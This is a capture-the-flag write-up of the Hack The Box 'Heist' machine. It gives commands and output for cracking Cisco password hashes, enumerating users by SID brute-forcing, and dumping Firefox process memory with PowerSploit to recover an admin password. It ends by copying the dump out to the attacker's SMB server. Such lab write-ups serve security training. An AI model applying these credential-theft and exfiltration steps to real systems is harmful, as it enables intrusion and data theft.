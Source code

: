 # Heist-walktrough
A writeup about the htb Heist box
## Enumeration
I use masscan and nmap for a quick scan, here i use a script which create a keepnote page report from the scan, found it [here](https://github.com/roughiz/EnumNeTKeepNoteReportCreator/blob/master/keepNoteScanNetReportCreator.sh).
 
In my first enumeration we can see, ftp and smb share, also http  (80,8080) ports :
```
$ create_SemiNoteFromIpWithMasscan.sh 10.10.10.149  /path/keepnote/Lab/htb  Heist  tun0
...

PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 10.0
| http-cookie-flags: 
| /: 
| PHPSESSID: 
|_ httponly flag not set
| http-methods: 
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
135/tcp open msrpc Microsoft Windows RPC
445/tcp open microsoft-ds?
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49669/tcp open msrpc Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
...
```
Here we have an http site in port 80, smb and also port 5985 WinRm (it's like ssh for windows that users from group Windows Remote Management can use)

## Enumeration 
In the Home page we have a redirection to the login.php page, and we can authenticate as guest by clicking in the button "Login AS Guest" and the request redirect me to the page http://10.10.10.149/issues.php.
![issue](https://github.com/roughiz/Arkham-walktrough/blob/master/isuue.png)
We have some informations about config issues in a cisco router posted by a user "Hazard" and also a file with cisco config. In this file we have some hashes, so let's crack . 

## Username 
Hazard

## Hashes : 
We have two cisco hashes of type 7 (0242114b0e143f015f5d1e161713/02375012182c1a1d751618034f36415408)
And a cisco hash of type 5 : $1$pdQG$o8nrSzsGXeaduXrjlvKc91

### From config.txt 
```
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408

enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
```

I found a [site](https://www.frameip.com/decrypter-dechiffrer-cracker-password-cisco-7/) where we can crack this type of cisco hash:

###### Q4)sJu\Y8qz*A3?d ( admin)
###### $uperP@ssword (rout3r)

And i crack the cisco hash type 5 with john 

Firstly we store it into a file :
```
$ cat hash 
admin:$1$pdQG$o8nrSzsGXeaduXrjlvKc91
```
And we use john with rockyou dictionary like :
```
$ ~/MyGit/john/run/john   --wordlist=/home/roughiz/MyGit/wordlists/rockyou.txt hash
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-opencl"
Use the "--format=md5crypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:27 17,13% (ETA: 15:30:13) 0g/s 98444p/s 98444c/s 98444C/s xhet17..xhaferi5
0g 0:00:00:29 18,55% (ETA: 15:30:12) 0g/s 98395p/s 98395c/s 98395C/s viperusa95..viper1980
stealth1agent    (admin)
```
###### stealth1agent    (admin)
Now we have many creds, let's try to authenticate with theses creds :
For smb we have the couple (hazard/stealth1agent)
```
$ smbmap -u hazard -p stealth1agent   -H 10.10.10.149
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.149...
[+] IP: 10.10.10.149:445	Name: 10.10.10.149 
	Disk                                                  	Permissions
	----                                                  	-----------
	ADMIN$                                                  NO ACCESS
	C$                                                	NO ACCESS
	IPC$                                              	READ ONLY
```
Perhaps this couple of creds works with WinRm, i tried all couple of my 3 passwords and usernames, but it dosen't works , so after many search i found an impacket script which enumerate users through "MSRPC" interface :
```
$ lookupsid.py   Heist.htb/hazard:stealth1agent@10.10.10.149
Impacket v0.9.19-dev - Copyright 2019 SecureAuth Corporation

[*] Brute forcing SIDs at 10.10.10.149
[*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
```
Here we have a new users let's try theses new users with WinRM script.
Finally the creds works for :

###### Q4)sJu\Y8qz*A3?d (chase)

Now i'm in the box as chase, i have to enumerate for priv esc : 
![User-flag](https://github.com/roughiz/Arkham-walktrough/blob/master/userflag.png)

## Priv Esca :
I found this file with PowerUp.ps1 , but it appears that creator has update the box and remove the passwords into (i was late :) )
```
$ cat C:\Windows\Panther\Unattend.xml
 <component name="Microsoft-Windows-Shell-Setup" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" processorArchitecture="amd64">
    <AutoLogon>
     <Password>*SENSITIVE*DATA*DELETED*</Password>
     <Enabled>true</Enabled> 
     <Username>Administrator</Username> 
    </AutoLogon>
```
With ps command we see a strange process "firefox.exe", and with "netstat -ano" we see that firefox.exe client is connected to localhsot , surelly connect to the local site , so let's try to dump this process memory.
![ps-command](https://github.com/roughiz/Arkham-walktrough/blob/master/ps.png)
![netstat](https://github.com/roughiz/Arkham-walktrough/blob/master/netstat.png)

I used the function "Out-Minidump" from [here](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1) like :
```
$ . .\PowerUp.ps1
$ Out-Minidump -Process (Get-Process -Id 6156)  # id caught from ps 
```
![dump](https://github.com/roughiz/Arkham-walktrough/blob/master/dump.png)
And in my box, grep the file like: 
```
$ strings firefox_6156.dmp  |  grep -Fi "password=" | grep -i "admin"
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
```
![adminpass](https://github.com/roughiz/Arkham-walktrough/blob/master/adminpass.png)
Here the user use the client firefox and send the http request to authenticate into the web app and we can caught the authentication info as :

###### 4dD!5}x/re8]FBuZ (admin@support.htb)
 
lets try theses creds  with smbmap like :
```
$  smbmap -uadministrator   -p '4dD!5}x/re8]FBuZ' -H 10.10.10.149
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.149...
[+] IP: 10.10.10.149:445	Name: Heist.htb 
	Disk                                                  	Permissions
	----                                                  	-----------
	ADMIN$                                                  READ, WRITE
	C$                                                	READ, WRITE
	IPC$                                              	READ ONLY

```
Ok creds work great, now i tried two ways to have my flag: 

#### From output with smb 
```
$ smbclient  //10.10.10.149/C$ -Uadministrator
...
get root.txt
$ echo $(cat root.txt ) | wc -c
33
```
![flagroot](https://github.com/roughiz/Arkham-walktrough/blob/master/flagrootsmb.png)
#### From the box with the admin share

```
$ net use r: \\SupportDesk\C$ /u:administrator "4dD!5}x/re8]FBuZ"
$ r:
```
![flagrootlocally](https://github.com/roughiz/Arkham-walktrough/blob/master/flagrootlocally.png)
### Nota : 
- My wirn ruby script dosen't work for this box , i tried an other simple script. (don't know why!!)

- I used smbserver.py from Impacket to exfiltrate the dump.
Firstly we have to launch the smb server with credentials like :
```
$ sudo smbserver.py share $(pwd) -smb2support -username df -password df
```
And in the windows box we first authenticate to the server like :
```
$ net use \\10.10.14.4\share /u:df df 
$ copy mozilla_dump** \\10.10.14.4\share\
```
 




